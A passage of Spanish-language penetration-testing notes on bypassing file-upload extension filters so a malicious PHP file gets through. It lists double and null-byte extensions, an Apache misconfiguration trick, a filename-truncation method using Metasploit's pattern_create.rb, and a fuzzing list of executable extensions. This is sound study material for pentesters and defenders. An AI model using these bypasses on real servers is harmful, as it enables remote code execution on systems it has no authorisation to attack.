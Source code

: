 - Añade **otra capa de extensiones** a la comprobación anterior:
    
    -  archivo.png.jpg.php
    -  archivo.php%00.png%00.jpg
        
- Use la extensión doble inversa (útil para explotar las configuraciones incorrectas de Apache donde cualquier cosa con la extensión .php, pero que no necesariamente termina en .php ejecutará el código)
    
    - ej: archivo.php.png
        
- Trate de romper los límites de nombre de archivo. La extensión válida se corta. Y queda el PHP malicioso. AAA<--SNIP-->AAA.php

```bash
# Linux maximum 255 bytes
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4 # minus 4 here and adding .png
# Upload the file and check response how many characters it alllows. Let's say 236
python -c 'print "A" * 232'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# Make the payload
AAA<--SNIP 232 A-->AAA.php.png
```

### MODIFYING .HTACCESS

- [[#BYPASS BLACKLIST EXTENSION (SERVIDOR APACHE HTTP)]]

### BLACKLIST BYPASS

#### Extension fuzzing

Hay muchas listas de extensiones que podemos utilizar en nuestro escaneo fuzzing. `PayloadsAllTheThings` proporciona listas de extensiones para aplicaciones web [PHP](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) y [.NET .](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) También podemos usar una lista de `SecLists`:

- [https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)

```bash
jpeg.php
jpg.php
png.php
php
php3
php4
php5
php7
php8
pht
png
jpg
jpeg
svg
phar
phpt
pgif
phtml
phtm
php%00.gif
php\x00.gif
```